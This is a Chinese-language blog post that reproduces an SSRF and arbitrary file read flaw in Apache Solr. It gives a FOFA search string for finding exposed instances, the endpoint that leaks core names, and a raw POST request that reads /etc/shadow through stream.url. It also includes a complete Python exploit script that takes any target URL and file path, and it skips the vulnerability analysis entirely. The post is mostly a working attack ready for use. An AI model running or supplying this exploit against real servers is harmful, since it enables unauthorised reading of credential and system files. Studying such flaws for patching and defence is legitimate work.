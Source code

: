 # Apache Solr SSRF与任意文件读取漏洞




# 前言

Apache Solr是一个开源的搜索服务，使用Java语言开发，基于Lucene的全文搜索服务器。

Apache Solr全版本存在一个SSRF与任意文件读取漏洞，因Apache Solr整体默认安装为未授权，且大部分资产都为未授权，提供众多api接口，支持未授权用户通过config api更改配置文件，攻击面较大。建议相关用户及时采取措施阻止攻击。



# 影响范围

Apache Solr 所有版本





# 漏洞复现

**fofa查询资产关键字：**

```
app="APACHE-Solr"
```



**1.首先访问目标url拼接下面的路径，获取实例对象的名称**

```bash
/solr/admin/cores?indexInfo=false&wt=json
```



![获取实例名称](http://image.xpshuai.cn/solr_instance.png)

如图，可以得到实例对象的名称为`Tourist-guide-Server`





**2.构造路径**

```bash
/solr/".iii."/debug/dump?param=ContentStreams&wt=json
```

其中`iii`就是我们前面得到的实例对象的名称
这里，我们构造之后为下面这个(这个地址作为post请求的地址)：

```bash
/solr/Tourist-guide-Server/debug/dump?param=ContentStreams&wt=json
```



而post数据中的body的内容为：`stream.url=file:///etc/passwd`

即(**发送这个数据包**)：

```bash
POST /solr/Tourist-guide-Server/debug/dump?param=ContentStreams&wt=json HTTP/1.1
Host: IP:PORT
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

stream.url=file:///etc/shadow
```



![读取文件](http://image.xpshuai.cn/solr_ok.png)







# 漏洞分析

略





# EXP

```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-
import requests
import json
import urllib
import time
import re
def Getins(url):
    try:
        ins=""
        url = url+"solr/admin/cores?indexInfo=false&wt=json"
        response = requests.get(url=url)
        data = str(response.text)
        ins = re.findall(r'\"name\":\"(.+?)\",',data)[0]
        return(ins)
    except IndexError:
        return("")

def Getfile(url,ins,filename):
    try:
        url = url+"solr/"+ins+"/debug/dump?param=ContentStreams&wt=json"
        headers ={
            'Content-Type': 'application/x-www-form-urlencoded'
        }
        payload = str("stream.url=file://"+filename)
        response = requests.post(url=url,headers=headers,data=payload)
        data = str(response.text)
        test = re.findall(r'\"stream\":\"(.+?)\"\}]',data)[0]
        print(test.replace(r"\n","\n"))
    except IndexError:
        print("不能读取此文件")
        

if __name__ == '__main__':
    url = input("请输入测试地址:")
    filename = input("请输入读取的文件路径:")
    ins=Getins(url)
    if(ins == ""):
        print("不存在漏洞")
    else:
        Getfile(url,ins,filename)
```

读取效果：

![exp效果](http://image.xpshuai.cn/solrexp.png)

---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/apache-solr-ssrf%E4%B8%8E%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/  


